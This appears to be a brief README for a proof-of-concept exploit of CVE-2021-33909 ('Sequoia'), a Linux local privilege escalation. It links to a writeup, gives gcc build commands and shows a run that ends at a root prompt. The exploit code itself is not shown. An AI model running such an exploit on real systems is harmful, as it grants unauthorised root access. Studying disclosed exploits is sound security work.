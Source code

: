 # CVE-2021-33909 Sequoia

[Writeup](https://blog.qualys.com/vulnerabilities-threat-research/2021/07/20/sequoia-a-local-privilege-escalation-vulnerability-in-linuxs-filesystem-layer-cve-2021-33909)

```bash
gcc exploit.c -o exploit -lpthread -DBLOCK_VIA_USERFAULTFD
gcc exploit.hello.c -o exploit.hello -lpthread -lfuse -D_FILE_OFFSET_BITS=64
```

```bash
$ mkdir dir
$ ./exploit $(pwd)/dir
# id
```